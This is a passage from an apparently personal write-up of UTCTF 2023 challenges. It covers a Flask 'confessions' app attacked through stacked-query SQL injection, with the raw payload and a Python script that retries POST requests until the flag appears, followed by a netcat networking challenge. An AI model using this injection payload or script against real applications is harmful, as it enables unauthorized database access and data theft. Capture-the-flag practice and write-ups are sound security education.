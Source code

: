 And **BOOM!!**. It seems to be the code executed by the back-end application. Of course it is `python` so the web application is most probably using the framework `Flask`.

Ignoring this and taking a look at the code we can clearly see a code vulnerable to some kind of `SQL Injection` because no paramaterized queries are used. We're into an `INSERT` but we can see that multiples queries can be executed by adding a `;`, then the result is printed to the user as an array (The empyt array that we saw until now). Since the table name is `confessions`, we can try to inject something like this:

```
"); SELECT * FROM confessions WHERE text LIKE "utctf%"; -- abcd
```

But we have to remember that back-end accept only sometimes our requests, so we can build a script to make it:

```py
import requests as r
import string
import re
bad_response = "not a confession"
url = "http://guppy.utctf.live:5321/confess"

while True:
    to_inject = '"); SELECT * FROM confessions WHERE text LIKE "utflag{% raw  %}{%{% endraw %}"; -- abcd'
    response = r.post(url,data={"confession":to_inject})
    if bad_response not in response.text:
        print("The page returned the following result: ")
        flag = re.findall("utflag\{[a-zA-Z0-9_]{1,}\}",response.text)[0]
        print(flag)
        break
```

🏁 _utflag{thanks_for_confessing_your_sins}_{: .spoiler}

# Networking

## A Network Problem - Part 1

> There are some interesting ports open on betta.utctf.live, particularly port 8080.<br><br>
> `betta.utctf.live:8080`

![netcat makes for an excellent stick](/assets/img/UTCTF_2023/networking_stick.jpg){: .image-50 }

```plaintext
$ nc betta.utctf.live 8080

Hi Wade! I am using socat to broadcat this message. Pretty nifty right? --jwalker utflag{meh-netcats-cooler}
```

In case you prefer a fancier approach, nmap's version scan can also be abused for this kind of tasks:
